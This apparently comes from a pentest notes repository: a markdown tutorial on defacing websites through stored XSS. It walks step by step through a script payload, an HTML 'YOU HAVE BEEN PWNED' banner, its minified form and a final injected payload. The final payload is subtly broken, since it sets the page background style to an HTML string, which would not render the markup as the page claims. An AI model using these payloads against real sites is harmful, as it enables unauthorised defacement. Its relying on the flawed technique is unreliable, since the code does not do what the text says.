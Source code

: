 # XSS Defacing Attack.
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. Defacing a website means changing its look for anyone who visits the website.
We can utilize injected JavaScript code (through XSS) to make a web page look any way we like.

## Perfarming Defacing.
- To perform a XSS Defacing attack the first step must be to _find the appropriate payload_. eg:
```javascript
<script>document.body.style.background = "#141d2b"</script>
```
- After that we have to write the HTML document that we want to deploy into the target, eg: 
 ```html
<center>
    <h1 style="color: white">YOU HAVE BEEN PWNED</h1>
    <body style="background-color:#171717">
    <p style="color: white">
        <img src="IMGURL" height="400px">
    </p>
    <h2>XSS DEFACING</h2>
    <h3>by TBHD </h3>
</center>
```
- We will must _minify the HTML code into a single line_:
```html
<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="IMGURL" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>
```
- The last step is to _add the minified HTML code to our previous XSS payload_, switching the parametter in our payload for our html line, the pattern must be as follows: `<script>document.body.style.background='HTML'</script>` = `<>PAYLOAD='HTML'<>`.</br>
__The final payload should be as follows:__
```html
<script>document.body.style.background='<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="http://192.168.1.54/skull.jpg" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>'</script>
```
__XSS DEFACING FINAL RESULT__</br>
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/138ab5c6-9d62-4038-9c67-442ba4040264" width="450">




